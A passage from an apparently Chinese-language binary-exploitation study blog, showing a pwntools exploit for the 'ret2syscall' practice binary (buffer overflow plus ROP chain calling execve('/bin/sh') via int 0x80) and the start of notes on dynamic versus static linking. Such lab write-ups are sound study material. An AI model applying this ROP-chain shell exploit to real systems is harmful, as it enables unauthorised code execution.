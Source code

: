 下面 exp 也是和上面相同思路

```plain
from pwn import *

io = process('./ret2syscall')

pop_eax_ret_addr=0x080bb196
pop_edx_addr=0x0806eb6a
pop_ecx_ebx_addr=0x0806eb91
int_80=0x08049421
bin_sh_addr=0x080be408

payload=b'A'*112+p32(pop_eax_ret_addr)+p32(0xb)+p32(pop_ecx_ebx_addr)+p32(0)+p32(bin_sh_addr)+p32(pop_edx_addr)+p32(0)+p32(int_80)

io.sendline(payload)
io.interactive()
```

这里大体了解了一下什么是栈平衡，之后再继续深入学习

## 动态链接过程

[![](assets/1701612384-27e41296db2ffbaa1e6a9a75945cffb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203339-2d0115c4-1679-1.png)

动态链接在装载的时候才为用户可见，静态链接在链接的时候就可以获取

这里分别 gcc 编译一下，看一下动态链接和静态链接的区别

```plain
gcc -fno-pie --static -o statest test.c
```

